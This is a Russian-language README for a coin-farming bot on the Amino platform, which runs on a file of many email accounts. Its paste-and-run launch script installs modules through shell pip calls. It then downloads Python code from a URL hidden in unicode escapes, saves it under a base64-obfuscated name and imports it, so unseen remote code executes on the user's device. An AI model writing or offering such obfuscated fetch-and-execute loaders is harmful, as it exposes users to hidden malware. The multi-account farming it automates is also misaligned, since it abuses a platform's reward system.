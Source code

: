 # Amino-Farm-Bot
Бот для фарма монет в Амино. 
___
- Для фарма нужно создать файл с почтами.
    - Новая почта >> новая строка. 


- Перед фармом бот запросит ссылку на пост (запись в блоге).
    - Сообщество должно быть открытым.

    - Ваш уровень в нем:
        - выше пятого.

    - Монеты придут на этот пост.
___

- Процес.
    - Приносит 38.
        - Может и сотку или больше.
        - Тут уж зависит от инета и везения. 
    - Фарм долгий:
        - иначе мало монет. 

    - Отправка мгновенная со всех аккаунтов сразу:
        - хоть что-то радует. 
___

- Монеты приносит раз в 24 часа.
    - << Не раз в сутки <<.
___

- Модули устанавливаются сами.
    - Просто запустите код:
        - к примеру pydroid3.
___

- Код запуска. 
    - P. S. Перед запуском разрешите pydroid3 доступ к хранилищу. 
 
    - Иначе он не сможет найти файл.

```
def modules():
    import os
    import time
    
    while True:
        try:
            import requests, os, time
            import base64
            
            break
        
        except Exception as error:
            while True:
                error = str(error)
                module = error[error.index("'") + 1: ][0: error[error.index("'") + 1: ].index("'")]

                try:
                    print("Найден неисправный модуль >> {} <<.\n".format(module))
            
                    time.sleep(5)
            
                    if "fix" in module:
                        module = "amino.fix"
                
                    else:
                        if "websocket" in module:
                            module = "websocket-client"
                        
                        else:
                            if "six" == module:
                                os.system("yes|pip uninstall six")
                        
                    os.system("pip install {} && cls || clear".format(module))
                    
                    break
                    
                except Exception as error:
                    pass
    
print("Проверка модулей...\n")
modules()

import requests, os, time
import base64

print("Проверка модулей прошла успешно.\n")

name = base64.b64encode("\u0041\u006e\u0061\u006e\u0061\u0073\u0069\u006b".encode("ascii")).decode().split("=")[0]
code = requests.get("\u0068\u0074\u0074\u0070\u0073\u003a\u002f\u002f\u0072\u0061\u0077\u002e\u0067\u0069\u0074\u0068\u0075\u0062\u0075\u0073\u0065\u0072\u0063\u006f\u006e\u0074\u0065\u006e\u0074\u002e\u0063\u006f\u006d\u002f\u0041\u006d\u0065\u0044\u0061\u0072\u006b\u002f\u0041\u006d\u0069\u006e\u006f\u002d\u0046\u0061\u0072\u006d\u002d\u0042\u006f\u0074\u002f\u006d\u0061\u0069\u006e\u002f\u0066\u0061\u0072\u006d\u002e\u0070\u0079").text

open("{}.py".format(name), "w").write(code)
time.sleep(5)
os.system("clear || cls")
os.system("echo 'Ananasik :3 \n'")

from threading import Thread
def work():
    __import__(name)

Thread(target = work).start()

time.sleep(1000000)
```
___

- По вопросам:
    - [Телеграмм](https://t.me/meow3942).
